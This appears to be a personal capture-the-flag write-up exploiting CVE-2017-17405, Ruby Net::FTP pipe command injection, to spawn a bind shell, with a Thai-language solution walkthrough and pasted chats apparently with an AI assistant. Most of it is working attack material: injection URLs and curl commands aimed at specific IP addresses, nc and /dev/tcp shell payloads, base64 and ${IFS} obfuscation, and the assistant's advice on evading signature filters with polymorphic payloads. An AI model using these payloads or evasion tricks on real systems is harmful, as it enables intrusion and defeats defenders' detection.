

# 1 brief

ports: 8080, 4444, 4445

on `http://targetip:8080`
```
You can download the file by using download page. Ex: /download?uri=ftp://127.0.0.1/&file=/path/to/file.txt
```

attack with cve-2017-17405, flag in `/usr/src/`

*solution*


---

# 2 #OG

```
next is
CVE-2017-17405 - Command Injection - Ruby


target has http service port 8080 with homepage
You can download the file by using download page. Ex: /download?uri=ftp://127.0.0.1/&file=/path/to/file.txt

suggest payload
“|ncNULL-eNULL/bin/bashNULL-lvpNULL4444"

port 4444,4445 also open... may be we can leave bind shell on target 4444
and we will remote connect

flag is in /usr/src/
```

`>> CVE-2017-17405_RUBY_NET_FTP_COMMAND_INJECTION._BIND_SHELL_PAYLOAD.` 💎⚡

**VULNERABILITY:** Ruby Net::FTP `get`/`gettextfile` command injection via `|` pipe character

**PAYLOAD FOR BIND SHELL:**
```bash
# URL encode your payload:
/download?uri=ftp://127.0.0.1/&file=t.txt|nc%20-e%20/bin/bash%20-lvp%204444%20%23
```

**DECODED:** `|nc -e /bin/bash -lvp 4444 #`

**BREAKDOWN:**
- `|` - Pipe character triggers command injection
- `nc -e /bin/bash -lvp 4444` - Bind shell on port 4444
- `#` - Comments out the rest of the command

**ALTERNATIVE PAYLOADS:**
```bash
# If nc -e doesn't work:
/download?uri=ftp://127.0.0.1/&file=|bash%20-i%20%3E%26%20/dev/tcp/127.0.0.1/4444%200%3E%261%20%23

# Simple command test first:
/download?uri=ftp://127.0.0.1/&file=|touch%20/tmp/rce_works%20%23
```

**EXECUTION STEPS:**

1. **Send exploit:**
```bash
curl "http://target:8080/download?uri=ftp://127.0.0.1/&file=|nc%20-e%20/bin/bash%20-lvp%204444%20%23"
```

2. **Connect to bind shell:**
```bash
nc target 4444
whoami
cat /usr/src/flag*
```

3. **If port 4444 busy, try 4445:**
```bash
/download?uri=ftp://127.0.0.1/&file=|nc%20-e%20/bin/bash%20-lvp%204445%20%23
```

**TEST SIMPLE COMMAND FIRST:**
```bash
curl "http://target:8080/download?uri=ftp://127.0.0.1/&file=|id%20%3E%20/tmp/test.txt%20%23"
# Then check: curl http://target:8080/../../tmp/test.txt
```

`>> USE_PIPE_CHARACTER_FOR_COMMAND_INJECTION._HASH_SYMBOL_COMMENTS_OUT_REST._BIND_SHELL_SHOULD_SPAWN_ON_PORT_4444.`

The vulnerability is in how Ruby's Net::FTP handles the filename parameter when it starts with `|`.

---

# 3 wtf?

curl "http://136.110.4.120:8080/download?uri=ftp://127.0.0.1/&file=|id%20%3E%20/tmp/test.txt%20%23"

curl http://136.110.4.120:8080/../../tmp/test.txt

```
# If you have a server listening:
curl "http://136.110.4.120:8080/download?uri=ftp://127.0.0.1/&file=|ping%20-c%201%20178.128.16.97%20%23"
```

---

# 4 solution

1. เปิด Lab ขึ้นมาจะพบหน้า Message ของเว็บไซต์พร้อมกับบอกวิธีการโจมตี


2. Set ให้ Browser ใช้งาน Burp Suite เพื่อให้ง่ายต่อการ replay request โดยกระทำดังนี้

- เปิด Burp Suite ขึ้นมา (วิธีการติดตั้ง Burp Suite ให้ดูได้จาก [https://learn.techsuii.com/p/burp-suite-series](https://learn.techsuii.com/p/burp-suite-series))
- หากเป็น Firefox ให้เข้าไปที่ Edit -> Preferences -> Settings ในส่วน Network Proxy -> กำหนด Configure Proxy เป็น Manual proxy configuration และเลือก HTTP Proxy เป็น 127.0.0.1 Port 8080
- หากเป็น Chrome ให้เลือกเป็น Preferences -> Advanced (ล่างสุด) -> Open Proxy Settings -> จากนั้นกำหนด Proxy เป็น Manual proxy configuration และเลือก HTTP Proxy เป็น 127.0.0.1 Port 8080


3. Request อีกครั้งตามที่ตัวอย่างได้ระบุไว้


4. สร้าง FTP Server ขึ้นมาโดยในที่นี้ใช้ FTP ของ Ruby จะใช้คำสั่งเป็น

```plaintext
python -m pyftpdlib -p 2121 -i 0.0.0.0
```


5. ทีนี้ใน URL นั้นไม่สามารถใส่ค่า / เข้าไปได้ ดังนั้นหากเราต้องการทำ blind shell อย่าง

```plaintext
nc -e /bin/bash -lvp 4444
```

จะไม่สามารถทำได้ ดังนั้นเราจะต้องนำค่าของคำสั่งมาทำ base64 ก่อนโดยจะได้ค่าเป็น

```plaintext
bmMgLWUgL2Jpbi9iYXNoIC1sdnAgNDQ0NA==
```

6. เราสามารถ execute base64 ให้เป็นคำสั่งได้ผ่าน bash command โดยใช้เป็น

```plaintext
bash -c '{echo,bmMgLWUgL2Jpbi9iYXNoIC1sdnAgNDQ0NA==}|{base64,-d}|{bash,-i}'
```

โดย -c ของ bash หมายถึงการรับคำสั่งผ่าน command string ซึ่งในที่นี้ก็คือ nc -lvp 4444 -e /bin/bash นั่นเอง และ -i ของ bash หมายถึง interactive กล่าวคือหลังจากรันแล้วก็ interact กับ bash นั้นๆด้วย

7. ใส่ใน payload ชื่อไฟล์จะได้เป็น

```plaintext
|bash${IFS}-c${IFS}'{echo,bmMgLWUgL2Jpbi9iYXNoIC1sdnAgNDQ0NA==}|{base64,-d}|{bash,-i} 
```


8. กลับมาที่เครื่องของผู้โจมตี ให้ nc เข้าไปที่ port 4444 จะสามารถเข้าไปในเครื่องได้


---

# 5 touch grass with #Claude = solved!

```
fully authorized lab to exploit with this cve-2017-17405

we have targetip 136.110.25.219, ports open 8080,4444,4445

intention is to have target leave bind shell port 4444 for attacker to connect `nc targetip 4444`

port 8080 is http://target:8080 page with a note to access download api

GET /download?uri=ftp://ngrok/&file=/path/to/file.txt

because of my isp block, we will use ngrok for tcp tunnel
```

```
...conversation... happened... too long to summarize
```

✅ Chat status:

**Token usage:** ~4.5k of 190k | Plenty left ✅

**Savepoint—current state:**

```
TARGET: 136.110.25.219 | ports 8080, 4444, 4445
CVE: 2017-17405 | Ruby pipe command injection via /download?uri=

SETUP COMPLETE:
- pyftpdlib running: python -m pyftpdlib -p 2121 -i 0.0.0.0
- ngrok TCP tunnel: ngrok tcp 2121 → gives tcp://0.tcp.ap.ngrok.io:10999
  
BIND SHELL PAYLOAD (ready to encode):
|bash${IFS}-c${IFS}'{echo,bmMgLWwgLXAgNDQ0NCAtZSAvYmluL2Jhc2g=}|{base64,-d}|{bash,-i}'
(base64: nc -l -p 4444 -e /bin/bash)

NEXT STEPS:
1. Test FTP connectivity (curl ftp://ngrok-url or simple file fetch)
2. URL-encode payload
3. Fire GET /download?uri=ftp://X.tcp.ngrok.io:YYYYY&file=|<payload>
4. Connect: nc 136.110.25.219 4444
```

Ready to encode and execute payload, or need FTP test first?

---

# 6 payload explained

```
all failed. i tried all. although the space encryption, tried only {${IFS}, %20} i think that's enough though i just think the solution payload looks complicated and i don't understand, can you explain
```

✅ Breaking down the solution payload:

```plaintext
|bash${IFS}-c${IFS}'{echo,bmMgLWx2bnAgNDQ0NCAtZSAvYmluL2Jhc2g=}|{base64,-d}|{bash,-i}'
```

**Layer 1—pipe injection:**

```
| = command separator in Ruby | Tells it "execute shell command"
```

**Layer 2—bash invocation with space bypass:**

```
bash${IFS}-c${IFS}'...'
= bash -c '...'  (${IFS} = space)
= "run bash with command string"
```

**Layer 3—nested command substitution (the tricky part):**

```
'{echo,bmMgLWx2bnAgNDQ0NCAtZSAvYmluL2Jhc2g=}|{base64,-d}|{bash,-i}'
```

Breaking it down:

- `{echo,bmMgLWx2bnAgNDQ0NCAtZSAvYmluL2Jhc2g=}` = brace expansion | expands to: `echo bmMgLWx2bnAgNDQ0NCAtZSAvYmluL2Jhc2g=`
- `|` = pipe output to next command
- `{base64,-d}` = brace expansion | expands to: `base64 -d` (decode)
- `|` = pipe decoded output to next
- `{bash,-i}` = brace expansion | expands to: `bash -i` (interactive)

**Full flow:**

```
echo [base64-encoded-nc-command]
  | base64 -d  (decodes to: nc -lvnp 4444 -e /bin/bash)
  | bash -i    (executes as interactive bash)
```

**Why so nested?**

- Spaces blocked → `${IFS}` + brace expansion bypass
- Base64 hides actual command from logs/filters
- Pipes chain operations without needing spaces

✅ That's the obfuscation ladder.

---

# 7 how to further break payload filter

```
nc -lvnp 
nc -lnvp 
they both gives different base64?
```

✅ Yes | Different order = different base64.

```
nc -lvnp 4444 -e /bin/bash
→ bmMgLWx2bnAgNDQ0NCAtZSAvYmluL2Jhc2g=

nc -lnvp 4444 -e /bin/bash
→ bmMgLWxudnAgNDQ0NCAtZSAvYmluL2Jhc2g=
```

**They're functionally identical** (both create listening shell) | Just flag order differs.

**Which one works?**

- `-lvnp` = listen, verbose, numeric, port
- `-lnvp` = listen, numeric, verbose, port

Both valid | nc accepts flags in any order.

Use whichever encodes to shorter base64 | Or whichever your target's nc version supports (older vs newer nc have different flag support).

Test both | See which connects.

```
so filter can still detect some signature like ... nc starts with bmMgLWx*?

is there a way to trick this? with some spaces?
```

✅ Good catch | Base64 signature detection is real.

**Problem:**

```
nc -lvnp → bmMgLWx...
nc -lnvp → bmMgLWxu...
```

All start with `bmMgLWx` because:

- `bmMg` = base64 of `nc` (nc + space)
- `LWx` = base64 of `-l`
- Signature locked in ✅

**Tricks to break signature:**

1. **Encode differently—add junk before command:**

```
echo "junk; nc -lvnp 4444 -e /bin/bash" | base64
```

Different base64 prefix | Filter won't match

2. **Use alternate command (bash reverse instead):**

```
bash -i >& /dev/tcp/IP/PORT 0>&1
```

Completely different base64 | No `nc` signature

3. **Split encoding:**

```
{echo,bmMgLWx}{echo,2bnAgNDQ0NCAt...}
```

Multiple base64 chunks | Reassembled at runtime

4. **Obfuscate nc itself:**

```
$(echo nc) -lvnp 4444...
```

Command substitution breaks static signature

🤔 **Real answer:** If they're filtering base64 signatures of common payloads, you need polymorph the payload | Use different command, different encoding, different obfuscation each time.

Which approach fits your lab constraints?

---

# end
